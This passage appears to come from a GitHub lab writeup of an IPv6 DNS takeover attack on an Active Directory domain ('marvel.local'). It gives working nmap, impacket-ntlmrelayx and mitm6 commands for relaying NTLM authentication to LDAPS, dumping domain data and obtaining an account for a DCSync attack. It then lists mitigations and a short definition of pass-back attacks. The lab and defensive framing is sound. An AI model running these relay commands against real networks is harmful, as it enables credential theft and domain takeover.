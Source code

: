             nmap -6 -sn <IPv6_range>

**Once you find active hosts, scan for attack vectors using:**

            nmap -6 -p- <IPv6_target>

1.  We will use ntlmrelayx here with ipv6 -6 and the target -t pointing to ldaps of the DC. -wh (wpad) -l (gathered information)  

            impacket-ntlmrelayx -6 -t ldaps://192.168.64.138 -wh fakepad.marvel.local -l lootme  
            
2. Using mitm6 we set the domain -d to marvel.local. By using mitm6 we are essentially placing us in the middle to intercept and relay ipv6 authentications.  

            mitm6 -d marvel.local

![image](https://github.com/user-attachments/assets/a785249c-7700-46d4-b754-ab65689239ec)

3. Now as we sit in the network we can already see traffic being captured across the network. In the ntlmrelayx instance, we can see succesfull relays from MARVEL/THEPUNISHER.

![image](https://github.com/user-attachments/assets/74060f44-2d49-46cf-a4a6-6058d8342c39)

4. Domain info has now been dumped to the lootme file, which contains a plethora of information.

![image](https://github.com/user-attachments/assets/584e547f-d928-4c74-b2c3-9f50e1b40add)

5. As we continue to sit in the network with mitm6 running, we will eventually capture log in events. In this case, we will generate a login with MARVEL\administrator on THEPUNISHER machine. And we eventually capture this event in addition it has generated a new account and password for us, allowing us to proceed with DCSYNC attack with secretsdump.py later.

![image](https://github.com/user-attachments/assets/db4f9e93-0527-4c16-92b9-65dc4d3a776b)

## 🔵 IPv6 Mitigations  

1. If the network does not require the usage of IPv6 then proceed to blocking DHCPv6 traffic however this may have side affects.
2. Disable Web Proxy Auto-Discovery (WPAD) if not used.
3. Relaying LDAP and LDAPS can be mitigated by enabling both LDAP signing and LDAP channel binding.
4. Consider adding Administrative users to the Protected Users Group or marking them as Account is sensitive and cannot be delegated, preventing impoersonation attacks.

---

## 🚩 Pass-Back Attacks  

A Pass-Back Attack is a web-based attack where an attacker tricks a vulnerable web application into reflecting authentication credentials (such as NTLM hashes) back to the attacker, allowing them to capture and relay those credentials for further exploitation.

------- 
**Reference:**  

https://medium.com/@tayyabanoor1201/tcm-security-smb-relay-attack-writeup-dfc7cc113bb0

https://medium.com/@rymak/smb-relay-attack-19192e1d158c

🥇https://ct-cyber.me/smb-relay-to-reverse-shells-initial-attack-vector-evading-av-bb8010097571
